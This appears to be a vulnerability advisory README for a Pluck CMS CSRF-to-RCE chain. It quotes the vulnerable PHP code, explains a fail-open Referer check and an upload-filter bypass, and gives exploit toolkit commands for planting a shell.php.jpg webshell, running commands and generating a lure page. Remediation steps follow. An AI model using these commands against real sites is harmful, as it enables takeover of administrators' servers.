

<h1 align="center">CVE-2026-70376 — Pluck CMS Site-wide CSRF → RCE</h1>
<h3 align="center">Fail-open Referer check + no CSRF tokens + double-extension upload</h3>
<p align="center"><em>A single admin page-visit deletes content, injects pages, and drops a webshell</em></p>

<p align="center">
  
  
  
  
</p>

<p align="center">
  
  
  
</p>

<p align="center">
  <a href="#-at-a-glance">At a glance</a> ·
  <a href="#-summary">Summary</a> ·
  <a href="#-root-cause">Root cause</a> ·
  <a href="#-attack-chain">Attack chain</a> ·
  <a href="#-exploit">Exploit</a> ·
  <a href="#-remediation">Remediation</a> ·
  <a href="#-timeline">Timeline</a>
</p>

---

## 📋 At a glance

| | |
|---|---|
| **CVE ID** | [CVE-2026-70376](https://www.cve.org/CVERecord?id=CVE-2026-70376) |
| **Tracking ID** | PT-2026-68036 |
| **Product** | [`pluck-cms/pluck`](https://github.com/pluck-cms/pluck) — Pluck CMS (flat-file PHP) |
| **Affected** | **4.7.x** through **4.7.21-dev** / current `master` |
| **Weakness** | CWE-352 (CSRF) · CWE-434 (unrestricted upload, amplifier) |
| **CVSS v3.1** | **8.0 — High** · `AV:N/AC:L/PR:N/UI:R/S:U/C:L/I:H/A:H` |
| **Vector** | Network · no privileges · one admin page-visit (UI:R) |
| **Impact** | Content destruction/DoS, stored-content injection, **RCE** on Apache/mod_php |
| **Introduced** | commit `f79f916` (Dec 2019) — vulnerable logic present since |
| **Researcher** | [Ilhomjon Rustamov (@IlhomjonR)](https://github.com/IlhomjonR) |

---

## 🔎 Summary

The Pluck admin panel has **no per-request CSRF tokens anywhere in the codebase**.
Every state-changing admin action is gated by a single function,
`requestedByTheSameDomain()`, whose only defense is a **Referer-host comparison**
— and that check **fails open**: when a request arrives with **no `Referer`
header at all**, the function returns `true` and the action is allowed.

Because an attacker page fully controls whether a `Referer` is sent
(`<meta name="referrer" content="no-referrer">`), any logged-in administrator who
visits a malicious page can be forced to perform privileged actions cross-site.
Several destructive actions run on **GET**, and Pluck sets **no `SameSite`**
attribute on `PHPSESSID` (browsers apply `SameSite=Lax`, which still rides along
on top-level GET navigations), so they are reachable cross-site under default
browser settings.

A secondary **upload-filter weakness** lets the same CSRF plant a
`shell.php.jpg` double-extension file — turning the CSRF into a **drive-by RCE**
on Apache/mod_php hosts.

---

## 🧬 Root cause

### 1. Fail-open Referer check — `data/inc/functions.admin.php`

```php
function requestedByTheSameDomain() {
    if (isset($_SERVER['HTTP_HOST'])) { $myDomain = $_SERVER['HTTP_HOST']; }
    elseif (isset($_SERVER['SCRIPT_URI'])) { $myDomain = $_SERVER['SCRIPT_URI']; }
    else { $myDomain = NULL; }

    if (isset($_SERVER['HTTP_REFERER'])) { $requestsSource = $_SERVER['HTTP_REFERER']; }
    else { $requestsSource = NULL; }

    $referelDomain = parse_url($requestsSource, PHP_URL_HOST);

    if ($myDomain != NULL && $requestsSource != NULL &&
        (strcmp(trim($myDomain), trim($referelDomain)) === 0)) {
        return true;                 // Referer host == our host  -> allow
    } elseif ($myDomain == NULL || $requestsSource == NULL) {
        show_error("Be carefull with clicking links, ...", 1);
        return true;                 // Referer ABSENT -> FAIL OPEN -> allow  <==
    } else {
        return false;                // Referer host mismatch -> block
    }
}
```

A cross-site request with a **foreign** Referer is correctly rejected (the `else`
branch), which creates a false sense of protection — but the attacker simply
**suppresses the Referer**, hits the fail-open branch, and the request is allowed.
There is no token layer behind this check.

The gate is applied once in `admin.php` and trusted for the whole action switch:

```php
$isCSRF = requestedByTheSameDomain();
if (isset($_GET['action']) && $isCSRF) {
    switch ($_GET['action']) {
        case 'deletefile':  include_once('data/inc/deletefile.php');  break;
        case 'deleteimage': include_once('data/inc/deleteimage.php'); break;
        case 'deletepage':  include_once('data/inc/deletepage.php');  break;
        case 'module_delete': /* ... */
        case 'images':      include_once('data/inc/images.php');      break; // upload
        // ...
    }
}
```

### 2. No `SameSite` on the session cookie (amplifier)

Pluck never calls `session_set_cookie_params()`, so `PHPSESSID` inherits the empty
default → browsers apply `SameSite=Lax`, which still rides along on top-level GET
navigations. GET-exposed actions (`deletefile`, `deleteimage`, `deletepage`,
`module_delete`, `theme_delete`, `logout`) are therefore forgeable with a single
page visit.

### 3. Double-extension upload — `data/inc/images.php` (RCE amplifier)

```php
if (in_array($_FILES['imagefile']['type'],                       // client-controlled MIME
    array('image/pjpeg','image/jpeg','image/png','image/gif'))) {
    $imagewhitelist = array('jfif', '.png', '.jpg', '.gif', 'jpeg');
    if (!in_array(strtolower(substr($_FILES['imagefile']['name'], -4)), $imagewhitelist)) {
        show_error($lang['general']['upload_failed'], 1);         // only checks LAST 4 chars
    } else {
        copy($_FILES['imagefile']['tmp_name'], 'images/'.latinOnlyInput($_FILES['imagefile']['name']));
        // ...
    }
}
```

Both checks are trivially bypassed:

* the MIME type comes from the client (`$_FILES[...]['type']`) → set `image/jpeg`;
* only the **last 4 characters** of the filename are validated → `shell.php.jpg`
  ends in `.jpg` and passes.

The file is written to `images/shell.php.jpg`; on an Apache/mod_php host with
multi-extension handling it executes as PHP.

---

## ⛓️ Attack chain

> One authenticated admin page-visit — no click.



**Forgeable actions include:**

| Action | Method | Impact |
|--------|--------|--------|
| `admin.php?action=deletefile&var1=<f>` | GET | Delete arbitrary uploaded file |
| `admin.php?action=deletepage&...` | GET | Delete site pages (DoS) |
| `admin.php?action=module_delete&...` | GET | Remove modules |
| `admin.php?action=logout` | GET | Log the admin out |
| `admin.php?action=editpage` | POST | Inject stored page content |
| `admin.php?action=images` (upload) | POST | Plant `shell.php.jpg` → **RCE** |

---

## 💥 Exploit

A working PoC toolkit lives in [`exploit/`](exploit/):

* **`pluck_csrf_rce.py`** — prove the fail-open logic, CSRF-upload a webshell and
  run commands, CSRF-delete files, or generate a lure.
* **`csrf_poc.html`** — the standalone drive-by page delivered to a victim admin.

```bash
pip install requests

# Prove the fail-open Referer logic
python3 exploit/pluck_csrf_rce.py -u http://127.0.0.1/pluck -p 'AdminPass1!' probe

# CSRF-upload a webshell and get RCE
python3 exploit/pluck_csrf_rce.py -u http://127.0.0.1/pluck -p 'AdminPass1!' shell --run 'id'
#   -> http://127.0.0.1/pluck/images/shell.php.jpg?c=id

# Destructive primitive: delete a file cross-site
python3 exploit/pluck_csrf_rce.py -u http://127.0.0.1/pluck -p 'AdminPass1!' delete secret.txt

# Generate the drive-by lure for a victim admin's browser
python3 exploit/pluck_csrf_rce.py -u http://127.0.0.1/pluck lure --action shell -o lure.html
```

The Python requests deliberately send **no `Referer`**, exactly reproducing a
victim browser under a `no-referrer` policy. HTTP-layer asymmetry that confirms
the logic:

```
Referer: http://attacker.example   ->  action BLOCKED   (else branch)
(no Referer header)                 ->  action SUCCEEDED  *** CSRF bypassed ***
```

> ⚠️ The `.php.jpg` → RCE step requires an Apache/mod_php host that runs
> multi-extension files through PHP. Where that is not configured the CSRF
> upload still succeeds and the destructive `delete`/`deletepage` primitives are
> unaffected — the CSRF is the core bug; RCE is the amplifier.

---

## 🛠️ Remediation

1. **Add a real CSRF token** — a per-session random nonce in every admin form and
   on every state-changing link, verified server-side with a constant-time
   comparison. This is the actual fix; the Referer check is not a substitute.
2. **Fail closed** — if origin validation is kept as defense-in-depth, treat an
   absent `Referer`/`Origin` as *untrusted*. Prefer the `Origin` header and reject
   when it is missing or mismatched.
3. **Never mutate state on GET** — move `deletefile`, `deletepage`, `logout`, etc.
   to POST so `SameSite=Lax` provides baseline protection.
4. **Harden the session cookie** — set `SameSite=Strict` (or `Lax`), `HttpOnly`,
   and `Secure` via `session_set_cookie_params()`.
5. **Fix the upload filter** — validate the final saved filename against an
   allow-list of exact extensions, verify real image content, and never trust the
   client-supplied MIME type.

---

## 🕒 Timeline

| Date | Event |
|------|-------|
| 2019-12 | Vulnerable `requestedByTheSameDomain()` logic introduced (`f79f916`) |
| 2026-07-08 | Discovered via source-code audit; end-to-end PoC verified |
| 2026-08-10 | Advisory drafted (PT-2026-68036) |
| 2026-08-12 | **CVE-2026-70376** assigned; advisory + PoC published |

---

## 📚 References

- CVE-2026-70376 — https://www.cve.org/CVERecord?id=CVE-2026-70376
- CWE-352: Cross-Site Request Forgery — https://cwe.mitre.org/data/definitions/352.html
- CWE-434: Unrestricted Upload of File with Dangerous Type — https://cwe.mitre.org/data/definitions/434.html
- Pluck CMS — https://github.com/pluck-cms/pluck

---

## ⚖️ Disclaimer

This material is published for **educational and defensive purposes** and for
**authorized security testing only**. Do not use it against systems you do not own
or have explicit written permission to test. The author accepts no liability for
misuse.

<p align="center"><sub>Found &amp; documented by <a href="https://github.com/IlhomjonR">@IlhomjonR</a> · CVE-2026-70376 · PT-2026-68036</sub></p>
